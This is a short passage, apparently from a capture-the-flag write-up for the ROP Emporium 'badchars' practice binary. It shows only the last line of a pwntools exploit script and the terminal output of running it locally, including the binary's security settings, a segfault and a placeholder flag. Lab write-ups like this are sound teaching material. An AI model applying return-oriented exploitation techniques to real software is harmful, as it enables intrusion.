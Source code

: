 ```python

print(conn.recvall().decode("ascii"))
```

And run it.

```text
$ python exploit.py

[*] '/home/sammy/Projects/binexp/ropemporium/5-badchars/badchars'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[+] Starting local process '/home/sammy/Projects/binexp/ropemporium/5-badchars/badchars': pid 138235
[+] Receiving all data: Done (44B)
[*] Process '/home/sammy/Projects/binexp/ropemporium/5-badchars/badchars' stopped with exit code -11 (SIGSEGV) (pid 138235)
Thank you!
ROPE{a_placeholder_32byte_flag!}

```

